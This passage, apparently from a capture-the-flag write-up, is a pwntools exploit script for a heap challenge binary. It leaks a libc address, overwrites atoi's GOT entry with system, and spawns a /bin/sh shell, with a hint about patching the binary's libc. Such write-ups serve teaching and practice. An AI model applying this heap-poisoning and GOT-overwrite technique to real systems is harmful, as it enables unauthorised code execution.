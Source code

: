 ```python
url,port = 'host1.metaproblems.com',5600

if args.REMOTE:
	p = remote(url,port)
else:
	p = elf.process()

if args.GDB:
	gdb.attach(p)

atoi_got = 0x404068

for _ in range(8):
	print('creating',_)
	create(b'test')
for i in range(7,-1,-1):
	print('deleting',i)
	delete(str(i).encode())

leak = view(b'0')
leak = u64(leak.ljust(8,b'\x00'))
offset = 0x7fc1feb0dca0-0x7fc1fe722000
libc.address = leak-offset
print(hex(leak))

edit(b'1',p64(atoi_got))
create(b'test')
create(p64(libc.sym['system']))
option(b'/bin/sh')


p.interactive()
p.close()
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
If you are testing locally, make sure to patch your binary to use the libc.so.6 given!
{% endhint %}
